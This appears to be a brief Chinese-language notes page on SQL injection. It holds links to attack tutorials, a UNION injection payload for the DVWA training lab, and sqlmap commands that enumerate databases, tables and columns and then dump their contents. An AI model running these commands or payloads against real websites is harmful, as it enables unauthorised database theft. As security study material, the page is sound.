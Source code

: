 目录
	SQL注入方法



[使用SQLMAP对网站和数据库进行SQL注入攻击](http://drops.wooyun.org/tips/2113)

[Sqlmap注入技巧收集整理](http://www.lxway.com/4089025404.htm)

[sqlmap 寻找注入点](http://www.lxway.com/931786.html)

[没有注入点，如何拿站](http://www.lxway.com/912111582.htm)

[手工注入](http://www.rising.com.cn/newsletter/news/2012-05-24/11580.html)

[sqlmap](https://github.com/sqlmapproject/sqlmap)

[SQL注入 | 最棒的相关资料汇总](http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=402619216&idx=1&sn=0c2b3c741449ddb859203ebcc8eb04af&scene=0#wechat_redirect)

[sqlmap手册](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)

DVWA 
1
?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit

sqlmap步骤
//查数据库 
1、sqlmap -u http://www.xxx.com --dbs 
//查数据库表 
2、sqlmap -u http://www.xxx.com -D 数据库名 --tables 
//查数据库表字段 
3、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 --columns 
//查数据库字段内容 
4、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 -C 字段名1，字段名2，字段名3 --dump
